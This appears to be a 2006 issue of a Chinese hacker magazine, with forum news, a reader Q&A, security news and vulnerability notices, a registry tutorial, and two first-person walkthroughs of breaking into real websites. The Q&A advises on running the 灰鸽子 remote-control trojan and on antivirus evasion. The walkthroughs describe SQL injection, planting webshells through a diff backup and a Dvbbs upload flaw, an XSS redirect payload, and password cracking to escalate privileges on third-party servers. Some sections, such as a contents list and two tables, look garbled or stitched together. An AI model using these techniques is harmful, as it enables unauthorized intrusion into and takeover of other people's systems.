相信大家接到这本杂志的时候，已经是草长莺飞、南燕北归的季节了。好景色的季节，大家一定不要忘了去踏青。但是要记住，农民伯伯的麦苗一定不要去踩哦，那可是一年的收成啊！还有，最佳的踏青方式是躺在蓝蓝的草地上，面对着线蓝的天空，呼吸着墨香的空气，惬意死了啊！（小菜：老大，搞错了吧？？天不是绿的，草不是蓝的，还有，空气怎么会那个味道呢？小行：哈哈，忘了说了，我拿了本《黑客手册》4月号杂志在欣赏各位的佳作呢！）好了，闲话少说，我们来看3月论坛大事！总结几条，各位看官慢慢瞧！

## 1、误解源自负责！

没有各位热心读者积极工作，认真负责，就没有现在论坛这样的火爆。但是工作中肯定不可避免地会有一些小小的矛盾和误会产生。有了问题不要憋着，说出来，我们解决掉就好了！这不，事儿曾经爆发出来了。论坛热心会员冷漠男孩在论坛“我的照片”版发了个“浅谈国内黑客论坛的定位和发展”的帖子，结果被该版版主黑裤子第一时间删除，理由是广告！冷漠男孩并不会冷漠，拿起法律的武器，保护自己的合法权益，遂直接在站务管理区投诉黑裤子，讨个说法！最终当事人裤子发言澄清一切，使真相大白，同时还有其他版块的版主也纷纷加入到发帖中来分析劝解，站务专家版主——古怪精灵的聪明睿也充分发挥了她那火辣而热情的个性来论断此事，更是增加了本帖的回头率。具体内容精彩纷呈，火爆刺激，还犹豫什么呢？赶紧去点击吧：http://www.nohack.cn/bbs/thread-3609-1-1.html

## 2、好东西请拿出来分享！

独乐乐与众乐乐，哪个更乐？当然是众乐乐！有好东西、好的站点，赶快拿出来与大家一起分享吧！只要你每月在论坛回帖，把你认为的好的站点、好的技巧、好的名言拿出来，发到论坛对应的帖子里，每月投稿帖子经编辑审核后，就会在杂志的页脚部分登出来。格式如：小行推荐，做人要厚道！小行推荐：http://www.nohack.cn/bbs 这个论坛真好！内容可以是好的站点、好的名言、好的技巧！如果你也想试试的话，就去 http://www.nohack.cn/bbs/thread-3846-1-1.html 吧！

## 3、合订本上市了！

也许你在暗自神伤，也许你在独自流泪（小编：如此伤心，不是心爱的 MM 抛弃了你，就是搞丢了中大奖的彩券），因为你没有看到以前的《黑客手册》；一本本地买，你又觉得太麻烦了！你愁啊！哭啊！现在我要告诉你，你不要再伤心了，NoHack 考虑到这一点，已经在第一时间为我们打造了《黑客手册2005合订本》，只需一本，以前的杂志就都补齐了，而且还方便，何乐而不为？赶快来抢购吧！——仅售：26元


## 4、这么好的杂志，我想一次订购！

- （1）现在全年订是 127 块钱吗？如果近期邮购，3月份能来吗？
- （2）我是首次邮购，希望能得到准确的邮购单填写指南，我应该怎么填写？还有细节问题……我第一次邮购……怕怕的哦！
- （3）邮购也是通过写信箱地址吗？

相信很多读者都想问这个问题，这里我们的编务速递小子为大家做了详细的解答，如果你不明白，如果你想邮寄全年杂志，请直接进这个地址：http://www.nohack.cn/bbs/thread-3511-1-1.html

## 5、有假冒读者群出现了！

我们各个地区的读者群在各位读者的关怀下已经步入正轨了，当地的读者进群已有的读者群，可以第一时间知道我们杂志社的动向，及时询问购买邮购信息，并可以在一起交流探讨。但最近发现有人恶意破坏杂志声誉，假借杂志之名私自建立假冒读者群进行诈骗等非法活动。在此公告，所有建立群的读者，都已经在论坛跟帖说明了自己的身份、建立者QQ号、QQ群号码以及其他一种联系方式（邮件、MSN、电话等均可），这些资料在论坛均有记录，并都由论坛管理员进行了确认。所以请读者朋友先到论坛查看在列表中的群，只有批准通过的才是我们承认的群，因此希望各地读者加入时注意一下。各个地区群号请直接去这个链接查询：http://www.nohack.cn/bbs/thread-2562-1-1.html


## 6、春天景色实在好！

天气好，学校园里踏青，拍的 PP 真叫人向往，可惜小行我们这里还是白雪呢！不过下次的帖吧我们这里也一定是花红柳绿了！（如图）想看更多的，请去 http://www.nohack.cn/bbs/thread-3595-1-1.html


主持人：小龙猪 B4N

Q：我的机器只有 ipc$、admin$、c$、d$ 是共享，请问具体的批量处理删除该怎么写？“rem”是什么意思？

```bat
net share admin$ /del
net share ipc$ /del
net share c$ /del
net share d$ /del
```

A：打开记事本输入以上语句，保存为 .bat 后执行即可删除默认共享。也可在组策略启动脚本中加载。`rem` 为注释命令，不会执行，仅用于说明。


Q：想问问怎么用灰鸽子，有没有细致说明，比如设置与搜索肉鸡（搜索内容、当前连接、连接密码等）。

A：先申请支持 FTP 的 web 空间，上传用于记录地址的文件（如 ip.txt），服务端连接该地址实现自动更新；内网可通过端口映射实现连接。

Q：FSG、ResHacker、UPX、VPORT 这些是什么？做免杀服务端应改哪个文件？

A：FSG/UPX 是加壳程序，ResHacker 是资源修改工具；常见是修改 Cache 下的 CServer.dat；VPORT 为端口转发工具。免杀可直接处理 cserver 或生成的服务端程序。

Q：最近无法登录 163，登录后自动退出怎么办？

A：可能是 Cookie 被拦截或 IE 隐私设置问题。Internet 选项中将隐私级别调到“中”可避免循环退出。


Q：中了 pcshare 木马，杀软清理不了，总重复弹窗，如何删除？

A：pcshare 属于驱动级木马，建议安全模式或 DOS 下查杀；可用 knlsc 先查隐藏服务，再用 `knlsc -cd 服务名` 禁止服务。

Q：网站后台账号密码丢失找不到登录入口怎么办？

A：可用搜索语法定位常见后台路径，如 `inurl:asp site:www.xxx.com`、`inurl:login.asp site:www.xxx.com`，或整站下载后检索管理登录地址。

Q：下载 KV2006 后想升级又不想买序列号，怎么办？

A：不建议刷序列号；可通过提交最新病毒样本获取厂商回馈服务（如升级序列）等正规途径。

Q：很多黑客工具藏在深目录，怎样方便调用？

A：可用收藏夹快捷方式管理工具，或修改属性伪装路径；也可配合文件夹加密；另可用快速启动工具集中常用工具与目录。

Q：我们公司经常要进行一些大型网络会议，利用 QQ 和 MSN 都觉得不安全，请问有什么好的方法吗？

A：我也是刚接触到 IRC 聊天频道这个概念，的确可以带来很多新的东西。可以在已有的服务器，例如 263 的 IRC 聊天服务器里，创建一个房间并进行加密，这样就比较安全，也不容易被一些信息类木马窃密。

Q：如何在 BBSXP5.16 里上传 ASP 木马？打算用备份的方法变成 ASP 格式，可是居然改不到数据库位置，怎么办？

A：bbsxp5.16 可以在后台的上传属性里添加 asp*（空格用 * 代替），然后在上传的 asp 木马后加个空格就可以了。你说的不能修改，是因为 bbsxp 的特殊性，可以在保存这个页面后，上传改了扩展名的木马地址，再加 action 后的提交地址就可以了（图4）。


Q：如何保证自己在使用黑客工具的同时不被查杀？

A：最近有人提出写 inf 文件，在打开黑客工具所在的文件夹的同时关闭杀毒软件，我认为这是相当不可取的。因为很多黑客工具本身就被居心不良者捆绑了木马。这里针对常用的卡巴介绍一下，在“设置”下的“排除设置”里选择工具目录后，使用时杀毒软件就不会出来搅和了。KV2006 也具备了此功能，随着网络技术的发展，估计很多杀毒软件都会陆续推出排除目录的功能。

Q：我的机器比较古董了，我想在我的 Win98 系统下使用 Xscan，可是现在的版本都不支持，请问有什么方法？

A：早先的 xscan2.3 版本是支持 Win98 的，可以下载这个版本，并且把最新版的插件安装到 2.3 的版本中就可以了。

Q：各位在公司都采取怎样的内网防毒措施呢？公司机器很多，今天不是这台中毒要重装，就是那台……工作效率极其低下，各位有没有好办法呢？

A：当管理员需要管理庞大的计算机群的时候，每台客户机的安全以及更新就成为了最为紧张的一部分，而内网的系统安全更直接影响到主机是否会受到病毒的滋扰。你可以试试使用微软（MS）的 Microsoft Software Update Service（SUS）进行客户机的补丁更新，从而在第一时间内进行系统的补丁安装以及提示。在内网杀毒以及防御方面，你可以试试相关的网络版杀毒软件，或者利用硬盘保护卡、系统还原等工具去保护系统重要资料以及免除整天重装的困扰。

## 《黑客手册》各地地方群速查

- 16450039 黑客手册天津2号群（已满）
- 21054151 [黑客手册]（天津）3号群
- 16475479 黑客手册陕西3群（2群已满）
- 19923499 黑客手册东北1分群（2月27日新建）
- 62162281 《黑客手册》新疆分群
- 10446024 非安全广西群
- 13629622 非安全江西群
- 11119981 非安全河北总群
- 18089437 非安全四川分群（本群已满，请加2号群）
- 12063086 非安全四川的2号群（新建2号群，06年3月20日）
- 10028450 Nohack泉州群
- 7669240 黑客手册江西分群
- 13817677 非安全河北群
- 10320680 黑客手册浙江讨论群（本群已满，请加2号群）
- 10858341 黑客手册浙江的2号群（浙江2号群，06年3月20日）
- 18780224 非安全安徽群
- 16467089 nohack沈阳分群
- 13203629 nohack江苏爱群
- 20415690 黑客手册山西分群
- 2820679 《黑客手册》无锡群
- 21065525 N+（非安全）广州群
- 11119989 nohack保定一群
- 21090377 NoHack福建群
- 20167203 car NoHack联盟
- 12834201 福建黑无联盟
- 6856970 山东网络安全讨论
- 719454 nohack广东菜鸟帮
- 3525933 黑客手册系统群
- 18880827 [黑客手册]北京分加密群

## 写信箱

> 只要有耐心，铁鸡也能变肉鸡

> 《爸爸，给你炒》读后感：老实话，我觉得，两代人之间应该沟通，才可以撕开表面那层膜。作者到最后才发现父亲对自己的关爱，十分发人深省。（编辑和作者 yizigu 进行了连线，他说是虚构的故事，只是用了每一个称谓而已，强，虚构的都感动了我们！）

> 本期我喜欢第42页的文章，因为——搞 g 国，爽！

## 黑客手册

本刊系双碟CD一同赠送，不得单独销售。  
定价：25.00元

## 13SXPZ0新闻
### 巧取管理员权限
- 空间“泛站群”
- HR-CMS漏洞新突破：绕过空间WebShell
- SPPortal 3.7 SQL注入漏洞利用分析
- 关键词“无列名”返回绕过WebShell
- 新浪门户（*.sina.com.cn）的灰色检测

- 从网站点击到提升站点搜索排位
- 让网站更流行的内容软文营销和博客攻坚
- 搜索引擎排名实战
- DLL木马清除终极篇：打造纯净办公环境
- 玩转KDE桌面环境下的垃圾文件清理
- PHP安全之防御Cookie和Session劫持
- 电脑送修时Shellcode攻击链条解析

## 烽火台

5月1号，劳动者的节日。我们中国人有句话：一分耕耘，一分收获；老外也有句谚语：No pain, No gain（不劳无获）。所以五一7天乐，除了休息，还得好好学习黑客技术。我们首先来看下一个月来网络安全的大事小情。可能最为让人关注的是微软4月带来的大补丁包了。北京时间4月12日，微软公司发布四月安全公告，同时发布了巨型补丁包，可以修补微软IE十个安全漏洞，并且都属于严重等级漏洞。难怪小编那天早上上班一开机，XP系统就开始自动下载补丁程序了。当时小编不以为意，司空见惯罢了。一个MSN好友发来信息才知道是十个重量级补丁，套用某歌配影的名字就是——“我的XP巨型补丁”。其实在此前，已经有不少安全公司为这些漏洞发布了第三方补丁以解燃眉之火，但是孩子都是亲生的好，对付这些个漏洞引发的安全问题当然还是打亲娘微软的补丁好，毕竟这个非开源系统又有它当妈的才知道如何去补才是完善一些……

本次送补，包含了微软的资源管理器、Outlook严重漏洞、FrontPage SE中等等级漏洞等等，没有赶补的朋友赶紧抓紧时间去下一个补丁包了。

好了，我们来看看其他精彩新闻。13岁的黑客攻击省级政府网站，最终如何？印度军政要地被Google地图网上曝光，商贩态度怎样？什么大事件叫支点网CEO悬赏5万元人民币寻找攻击者，究竟为了什么？精彩新闻，大家接下来看来一饱眼福吧！

## 黑客翻新DDOS攻击手法 DNS服务器成为最直接帮凶

3月28日，网络罪犯最近翻新分散式阻断服务（DDOS）攻击的手法，开始用形同互联网网页的域名系统服务器来发动攻击，抗击在线商务。黑客用DNS服务器来发动攻击有多重好处，可能隐匿自己的系统，让受害者难以追查攻击的原始来源。

这种攻击的手法让DDOS家族的技术含量更上一层楼了，也使得网络犯罪的取证工作又增加了新的科目，网警工作任重而道远啊。

## QQ/MSN软件使用者成诈骗新目标

国家计算机病毒应急处理中心的专家提醒，近一段时期，利用包括QQ、MSN等在内的各种IM软件的使用者成为诈骗犯罪者的新目标。专家介绍，仅百度网有关“QQ诈骗”的网页就达460000篇，诈骗者们专业化的网页设计、编程能力，使得诈骗网页看上去很精美，并很难分辨真伪。提醒大家不要相信这些“美丽的谎言”，以免受骗上当。

专家还提醒，有些病毒发作以后，会破坏Windows的一些关键文件，导致无法在Windows下运行杀毒软件进行病毒的清除，所以应该制作一张DOS环境下的杀毒软件，作为应对措施，进行杀毒。

QQ/MSN软件成为诈骗目标并不稀奇，但是究其根源，还是在于有利可图。好奇、贪婪是掉入陷阱的第一步，所谓“天上不会掉馅饼”的警世箴言，奉劝各位网友还是要牢牢记住，擦亮双眼吧。追求那些所谓的“馅饼”除了让商家乐开怀，也让骗子有了可趁之机，到头是赔了钱又折了号，得不偿失。

## 军政要地网上被曝光 印度抗议Google地图泄密

印度陆军参谋长鲁霍兰将对Google的地图搜索服务中标示出对印度构成战略威胁……“Google地球”自诞生以来，其高清晰的图片已经遭到很多国家的抗议。据《印度快报》报道，图格上显示的这些图像“可能会被恐怖组织在对印度发动袭击时利用”。印度总统卡拉姆也曾公开批评Google地图泄密。

Google地图以其快捷、方便的特点给很多人带来极大便利。我们足不出户，坐在电脑前就能“一览众山小”。这样的“待遇”，是互联网赋予我们的特权。其他国家也肯定有类似的Google泄密问题，只是没有像印度这样兴师动众地报道出来。不过，印度这一咋呼，反而给貌似已久的“恐怖分子”以及“有争端邻国”提醒：“各位兄弟，你们要侦察偶的军事要地，只需要Google一下就OK哦，不用再花钱雇间谍跑了。”Google的广告词也建议改俗一点：“Google，一切皆有可能。”

## 网吧电脑键盘有毒 细菌比公共厕所高出400倍

首都医科大学附属北京佑安医院发布的调查结果显示，在网吧里的电脑键盘中，有些细菌比公共厕所的细菌高出400倍。北京佑安医院感染管理科对某单位的20台办公用电脑键盘和鼠标进行感染情况监测，调查发现，在电脑键盘上，会经常发现某些附着微量霉菌如肺炎菌、酵母菌、荧光丝等。对其进行微生物培养结果显示：键盘和鼠标表面细菌菌落数高达65 cfu/cm²，并分离出金黄色葡萄球菌、大肠埃希菌、绿脓杆菌和枯草芽孢杆菌等。

同时，对某个网吧的200台电脑键盘的抽样检查，发现其中带菌的电脑竟然占到了35%。研究者强调，在电脑键盘和鼠标上发现的各种细菌比公共厕所的细菌高出约400倍。一些接触电脑的人可能会不明原因地患上各种皮肤病、眼病和胃肠道疾病，究其原因就是不注意电脑键盘和鼠标的卫生，接触前清洁消毒所致的。

常去公共场所上网的朋友可要小心了。这年头，没有什么不可能，小心，小心，再小心。

## 网吧搜网卡开卖 25万条经理人信息泄露

被发现相关名单被人在近一两年发布于网站，而最近两周，名录内的不少人频频遭遇电话骚扰。通过网络搜索引擎，记者发现名录中所谓经理人信息，一般都可在公司主页、综合供应商网站上查到。

这种名录小编从QQ好友那里也收到过，有“上海老板手机名录”“明星电话名录”等。这些东西对小编没有什么用途，但是对于一些相关行业的从业人员却有特殊用途。比如小编的手机也会接到一些莫名其妙的骚扰电话：“老板，卖开发票吗？”“老板我们这里有塑料海膜的相关业务想在北京发展一个代理商。”另外就是一些乱七八糟的信息骚扰了。不过，这些对小编的生活倒没有造成什么影响，小编倒是比较同情那些泄漏了电话的明星。据皇帝专业户张国立说，他电话泄漏之后，一天就收到几百个短信，最后，他干脆把手机转到秘书台，至今仍然处于秘书状态。

### Google搜索中惊现澳大利亚警方数据库

4月27日消息，澳大利亚警方的一个存储无数新闻记者电子邮件口令的数据库意外地在互联网上曝光了。这些电子邮箱是新闻记者用来接收警方发布新闻的。据TheInquirer.net网站引述《悉尼晨锋报》的报道说，这个意外的大错误发生在新南威尔士州警察局。曝光的数据库中还包含这个州的两位高级反恐怖主义警官的电子邮件信箱和口令等详细内容。这两个警官一个是新任命的副局长Nick Kaldas，另一位是探长Mark Jenkins。这个数据库现在已经在上个月从网络上搬家了。但是，通过Google仍可以访问到那些内容。一份应发给超级恐怖威胁通报组相关记者的信息中，有些口令是记者用来预览新南威尔士州警察局的新闻发布的；但是也有一些口令是记者用来访问自己的电子账号和其它依靠口令访问的信息的。由于有些记者对自己所有的电子邮件账号都采用相同的口令，黑客很可能利用这个口令列表访问某些记者的其它系统。

Google Hack简直是无所不能啊，只要你有想法，有关键信息，也许下一个中奖的就是你。

### 13岁黑客攻破官方网站 8岁自学电脑曾受邀讲课

8岁自学电脑，高校黑客网站邀请讲课。经过重庆和吉林警方的密切配合，一名攻击吉林市人民政府网站的黑客近日被警方抓获，对方竟是个年仅13周岁的孩子，作案动机仅仅是为了报复几个与自己发生争执的吉林网友。根据法律规定，破坏政府网站将被处以3年以上有期徒刑。由于小旭尚不满14周岁，民警对其进行了教育后，责成其父母对其进行监管。这名小黑客的闯祸最初因为他的博客和QQ让其暴露了身份。2005年12月17日，吉林市政府网站遭黑客攻击，并因此一度关闭。接警后，吉林警方立即展开调查，很快找到了入侵者的博客地址和QQ号码。

一代新人换旧人，小子不禁惑哉，廉颇老矣！“黑客”开始向低龄化发展，道德意识、自控能力与所掌握技术的不匹配，加之缺乏一定的辨别能力以及对外界环境的影响，很容易让小小少年走上歧路。

- **微软FrontPage SE的漏洞允许跨站点脚本**：详细描述：此更新可消除一个秘密报告的新发现漏洞。本公告的“漏洞详细资料”部分针对该漏洞进行了说明。如果用户使用管理员权限登录，成功利用此漏洞的攻击者便可完全控制受影响的系统。攻击者可能安装程序、查看、更改或删除数据，或者创建拥有完全用户权限的新账户。那些账户被配置为拥有较少系统用户权限的用户比具有管理员权限的用户受到的影响要小。我们建议用户考虑应用安全更新。
- **Null::News多个SQL注入漏洞**：详细描述：Null News是一款基于PHP的新闻管理程序。Null News的多个脚本实现上存在输入验证漏洞，远程攻击者可能利用这些漏洞对主机执行SQL注入攻击。Null News的sub.php和unsub.php脚本没有正确过滤user_username参数的输入；lostpass.php、sub.php和unsub.php脚本没有正确过滤user_email参数的输入，允许攻击者通过注入恶意的SQL代码操控SQL查询。成功攻击要求关闭magic_quotes_gpc。
- **OpenVPN“LD_PRELOAD”环境变量传输漏洞**：详细描述：OpenVPN是一个基于OpenSSL库的应用层VPN实现。OpenVPN客户端允许服务器通过“setenv”配置指令向客户端shell传送包括LD_PRELOAD在内的环境变量。攻击者可以在环境变量放置恶意文件并加载该文件来执行任意代码。
- **GlobalSCAPE Secure FTP Server客户端命令拒绝服务漏洞**：详细描述：GlobalSCAPE Secure FTP Server是可配置的FTP服务程序。GlobalSCAPE Secure FTP Server在处理客户端命令时存在漏洞，如果攻击者提供了超长参数的话就可能导致服务崩溃。
- **Cisco 11500内容服务交换机HTTP压缩请求处理远程拒绝服务漏洞**：详细描述：Cisco CSS 11500内容服务交换机是用于为数据中心提供强壮可升级网络服务（4-7层）的负载均衡设备。Cisco CSS 11500在处理HTTP报文时存在漏洞，当启用了HTTP压缩后，设备在接受了有效但过期或特制的HTTP请求后可能会重载。成功利用这个漏洞会导致设备重载，反复攻击会导致持续的拒绝服务。

5·1劳动节到了，可是经过小编七七四十九天的辛苦劳作，也没有获得一只哪怕是小小的肉鸡，难道禽流感让我们的小鸡都北徙东南飞呀？苦闷，不如睡觉吧……5555~~痛苦时分，elin经过我面前，扔给我一个大大的WebShell，哇，居然是XX省电信门户网站，我高兴得晕了过去。口水还没有流完，yizigu同学又拎来了一只小小的肥鸡，哇，同样香嫩可口，我毫不犹豫地拿起了餐叉。

本栏目主要是通过实际的例子，让小菜们提高实战能力，学到基础技术。如果你发现某网站的漏洞，还请及时通知管理员且不要胡作非为，不然警察叔叔会请你喝茶哦。作为一个侠义黑客，掌握一个度最重要，不要搞破坏。当然，你肯定会碰见一些通知了他也不会补漏的管理员，不过，这是他的事情，你已经尽到你的责任了。

## 如何给网站注射鸡门
### ——对XX省电信门户网站的安全检测

- 从菜鸟到高手的必经：
- 注入工具的使用
- SQL差异备份保存WebShell
- WebShell概念的初步认识

### 一、源起

三、四月刊本人搞定电信互联网星空两个网站的文章相信大家都看过了吧，这使我们对电信网站的安全性大跌眼镜。互联网星空如此，那电信公司门户网站安全又如何呢？带着这种疑惑，我便开始了对电信公司门户网站的安全检测。

### 二、踩点

XX省电信门户网站的地址是http://www.xxxxx.com/（本文所有地址均经过处理），网站是用aspx写的。见到动态的网站，大家首先考虑的应该就是目标是否存在注入漏洞吧！拿来啊D注入工具进行检测，没有自动找到，手动找了找，不一会儿就找到一处：  
http://www.xxxxx.com/xxx/infodisplay.aspx?sColumn=44&info_id=1367。经过检测，网站用的是MSSQL数据库，当前用户的权限为DB_OWNER，如图1所示。

看来今天的运气不错！一个省级电信公司的门户网站却存在如此低级的注入漏洞，真令人感到惊讶！看来这些大公司都是赚钱赚晕了，却忽视了基本的安全维护。能占着带宽优势都在打什么网络游戏来着，真幸福啊。

### 三、上传WebShell

通过注入漏洞着手来上传WebShell的方法，常见的一般有以下两种：

1、通过猜解管理员账号、密码，然后找到管理后台登录，再利用后台的某些管理功能来传WebShell；  
2、若是SQL数据库，可利用注入拼表读取或列目录功能找到WEB目录，然后用SQL差异备份将一句话木马写入WEB目录下的一个文件中，最后用客户端连接获得WebShell（当然，还有其他方法）。

我们先来猜解账号，方法简单，纯工具利用，在此略过（免得编辑说我搞“商祸”，呵呵），结果如图2所示。

通过猜解，得到了5组管理员账号与密码。下面当然是去找管理后台的登录地址，试了几种注入工具的后台查找功能都未找到，手工也试了几个，依旧没有找到。有账号和密码却无处可用，真是郁闷啊！郁闷地又猜解了几个表，终于在xx_manage表中找到了如下数据，如图3所示，极有可能这就是登录地址了。试了一下http://www.xxxxx.com/xxx/console/login.aspx，果然如我所料，输入刚才所得的账号和密码，OK，进去了，如图4所示。

囧中！此路不通，换用第2种方法吧！用注入工具的注册表读取功能试图读出WEB目录地址，没有成功。再用列目录功能一个盘一个盘地找，找了好一会儿，终于发现E:\telecombak\update\便是WEB所在目录。要找到WEB目录，一定要有耐心遍历目录，并抓住WEB几个特征目录和文件（如刚才我们费尽周折得到的后台管理文件目录等）。在WEB目录下，我还发现了些好东西，如图5、图6所示。

真搞不懂管理员是怎么想的，竟然把备份放在WEB目录中，怕别人下载不了吗？哈哈！里面居然还放有网站开发说明文档，真照顾我们这些读代码功力不强的菜菜（还记得上次的广东互联网星空体育频道网站吗？也有这样的疏忽）。看了看有关开发项目文档，心里真是愤愤不平，安全性如此低下的网站开发费用竟达25万元，如图7所示。闲话不多说了，继续我们的目标：上传WebShell。通过SQL差异备份上传成功，过程不作赘述，4月刊本人文章中有详细过程，可翻阅，如图8所示。

### 四、提权

访问刚才留下的WebShell，所有分区和目录都未作限制，可以随便查看。找到两处可利用的地方：一个是装有pcAnywhere软件，在C:\Docume~1\All Users\Application Data\Symantec\pcAnywhere目录下找到的CIF文件，下载后用PCAnywhere PassView工具破解得到密码，再利用pcAnywhere连接管理，如图9所示；还有一处是该服务器装的FTP软件，为Serv-U FTP Server 4.0.0.4版本，可以通过暴破ServUDaemon.ini文件中的账号密码，或修改添加一账号，或利用其溢出漏洞进行提权。

最后说两点个人收获与感受：  
1. 寻找后台地址时，如果工具未找到，不妨在数据库里找找，在有关网站设置和日志记录的处理中有可能会找到些蛛丝马迹。  
2. 再次为网络安全现状担忧。省级电信门户网站，如此多的安全隐患，令人心情沉重。

【PCAnywhere PassView，啊D注入工具2.0，已收录在光盘中】

编辑点评：对高手而言，本文技术没有新鲜的东西。对于菜鸟而言，文章通俗易懂，能学到实在的东西。

## 让网吧成为菜鸟的跑马场

yizbigu

- 找你可以拿到的一些站的利用
- 如何抢台子进行深入
- 如何“7*asp2”之类脚本的后续利用
- 通过主机的安全管理策略绕过限制

### 确定目标，尝试入侵

我的一位好友告诉我，他们那里的一些网吧的主页被强制设置成www.cn165.net。我当时就大胆设想了一下，如果能拿下网站的WebShell并挂上网页木马，可想而知会有多大的收获。

首先看到网站有个留言本：http://www.cn165.net/gbook/，在目录后输入setup.asp进入设置。

验证字符串，只要输入正确，就可以添加管理员。网站管理员也太不细心，定义的字符串虽然没有显示在setup页面里，但是在论坛的公告里却直接公布了。

```html
<script>alert("test")</script>
```

现在不是流行跨站漏洞么？看看能否利用。通过查看源代码得知程序过滤很严格，但是标题处可填写50个字符，可以构造跨站语句。baidu 的窗口，当然写成：`"><script>location="http://baidu.com";</script>` 就会直接打开百度。这样就可以挂木马或者通过 JS 控制获得用户的 cookies 信息，不过理想和现实总是存在差距，管理员看到这样的标题一般就会直接删除，就算是挂网页木马或者拿到 cookies 也不一定有利用价值。然后仔细研究了一些其他的版块，同样毫无收获，最终以失败告终。

## 另辟蹊径——动网论坛漏洞利用

既然这个网站行不通，那么可以通过旁注拿服务器上的其他网站权限，这样就有针对性了。打开旁注工具 Domain，查询一下服务器上绑定了多少个域名，看起来比较多。还是先批量查一下注入点，工具找到不少，可惜不是查不到后台，就是 md5 的密码难以破解。这里也说一下自己的心得，通过注入拿到的后台一般都没有什么利用价值，起码拿 webshell 是无法保证的。好了，细心找一下其他网站的漏洞吧，总算让我找到一个动网 6.0 的论坛，如图 4 所示。


这里就不慌着入侵了，可能服务器上保留的只是网站的域名，通过 ping 来判断一下，确定了在同一服务器上。这个论坛没有修改默认数据库，动网 6.0 的漏洞还是比较多的，先来看看最简单的。在论坛地址后输入 upfile.asp，看来自存在漏洞的，如图 5 所示。


拿出桂林老兵的动网上传漏洞利用工具，输入提交地址后选择一款免杀木马，提示上传成功，如图 6 所示。最后访问生成的文件，webshell 就成功到手了。


由于是虚拟主机，安全做得相当不错，Shell.Application 和 WScript.Shell 都不可用。首先想到的当然是提权了，先传上一个小鱼精品 PHP 木马，HOHO，居然可以成功访问，如图 8 所示。


可惜最重要的 cmd 不能执行，利用程序自带的 su 提权工具也是提示失败，ftp 登录后发现是 Microsoft FTP 终端。传上个 aspx 的脚本木马能正常访问，但是 cmdshell 也不可用，aspx 的用户默认是 user 权限啊！看来就我这个水平的提权是天方夜谭了，汗啊。

记得通过海洋的组件探测，FSO 是可以利用的，不过任何分区都不允许访问。通过 webshell 可以知道站点的目录为 `E:\5535333com\www`，难道存在一定规律？我试着在跳转目录下输入 `E:\cn165net`，居然成功进入了站点目录，如图 9 所示。


记得以前黑站还没看到过这样的主机。同时它的权限并没有设置好，对所有站点均有可写的权限，为了方便操作，我传了一个 phpshell 到 cn165 的目录下，如图 10 所示。可以清楚看到，的确是具有可写权限，那么在首页挂个马是不成任何问题了。


## 一点经验总结——吸取教训

其实我也是一个菜鸟，这次入侵中遇到不少挫折。这台服务器看似固若金汤，却对站点目录名设置不当，让社会工程学又派上用场，并且更可怕的是权限设置的问题，虽然没有得到最终的服务器控制权，但是起码最初的目的达到了，并且可以轻易修改服务器上的任何站点。

让人觉得惋惜的是，我通过查看该站点的文件，发现这个网站的管理非常注重安全，很多文件进行加密，并且数据库并不在 web 目录下，可惜却存在于一个不安全的服务器上。最后也放弃了挂马的想法，通知一下空间管理员，也算是对入侵有个回报吧。

> 【文中所涉及到的 dybbs 上传利用工具、fix.php，已经收录在光盘中】

## 编辑点评

补充营养，增加养分，维 C，维 E，一片都不能少。从民间流传的营养补给口诀是这样的：吃药不如吃饭；吃得好不如睡得好。乍看有些道理，天生的好内核自然是最好的。但是对于知识营养的补给来说，却是我们一生都应该源源不断需要摄取的，所谓“活到老，学到老”，“落后就要挨打”等这些学习的道理我们的先祖早就给我们总结出来了。所以本栏目的宗旨就是为新人菜鸟提供必需的养料，提供益于他们生长的环境和温床。再次郑重声明：本栏目就像中国武术一样，旨在强身健体，增加知识，绝不是为了让你强大之后去欺负弱小者。国际劳动节我们给大家准备了什么呢，请看……

注册表你会玩吗？木马你会破吗？网页木马你捉到了吗？本期会一一给你解答，让你在五一这几天补充玩黑的基本营养素，还等什么，赶快充电吧~


> 观念你可以终结它。

- 1. 注册表的确实比较危险。
- 2. 利用注册表优化、定制、保护 Windows 系统。

## 一、前置理论

众所周知，Windows 操作系统进入 Windows 98 以来到现在的 Win 2000 和 Win XP，注册表就取代了 Win95 系列的 *.ini 文件的传统系统配置方式，扮演着整个操作系统核心数据库的作用。因为 Windows 注册表中记录着用户安装在计算机上的软件和每个程序的相关信息，用户可以通过注册表调整软件的运行性能，检测和恢复系统错误，定制桌面等，用户修改配置，只需要通过注册表编辑器，单击鼠标，即可轻松完成。此外，还可以通过注册表来完成系统远程管理。所以，如果一旦你掌握了注册表，即掌握了对计算机配置的控制权，只需要通过注册表即可将自己计算机的工作状态调整到最佳。

显然，在注册表中，所有的数据都是通过一种树状结构以键和子键的方式组织起来的，十分类似于目录结构。每个键都包含了一组特定的信息，每个键的键名都是和它所包含的信息相关的。如果这个键包含子键，则在注册表编辑器窗口中代表这个键的文件夹的左边将有“+”符号，以表示在这个文件夹中有更多的内容。如果这个文件夹被用户打开了，那么这个“+”就会变成“－”。

> 小提示：在操作注册表编辑器的时候，我们可以用鼠标拖动树状结构点击达到你要去往的目标键；也可以通过方向键“←”和“→”移动到目标键。遇到“+”则可以通过“→”进入分支，也可以通过“←”跳出分支。如果分支里有很多子键，则可以通过首字母快速定位……

既然注册表对 Microsoft Windows 那么重要，于是很多木马后门的高手们都在注册表里大做文章，比如实现木马后门的自启动，比如关联 exe 或 txt 等文件到木马后门程序等等。

熟悉注册表的读者们都知道，要打开“注册表编辑器”，依次单击“开始”、“运行”，键入 regedit（或 regedt32），然后单击“确定”即可，运行结果如图 1 所示：

| 数据类型 | 说明 |
|---|---|
| REG_BINARY | 未处理的二进制数据。 |
| REG_DWORD | 4 字节长的数值数据。 |
| REG_EXPAND_SZ | 可扩展字符串。 |
| REG_MULTI_SZ | 多字符串值。 |
| REG_SZ | 固定长度文本串。 |
| REG_FULL_RESOURCE_DESCRIPTOR | 硬件资源描述。 |

表 2 列出了当前由系统定义和使用的数据类型：


从图 1 左边分割栏可以看到，WINDOWS 的注册表有五大根键，它们的定义和说明见表 1。

| 根键 | 说明 |
|---|---|
| HKEY_CURRENT_USER | 当前登录用户的配置信息。 |
| HKEY_USERS | 所有用户配置文件信息。 |
| HKEY_LOCAL_MACHINE | 本地计算机（所有用户）的配置信息。 |
| HKEY_CLASSES_ROOT | 文件关联与类信息。 |
| HKEY_CURRENT_CONFIG | 当前硬件配置文件信息。 |

表 1 五大根键定义和说明  
表 2 注册表数据类型

> 注意：作者的实验环境为 Windows XP SP2 中文版，如果是 Windows 2000 或 98 可能会稍有不同。

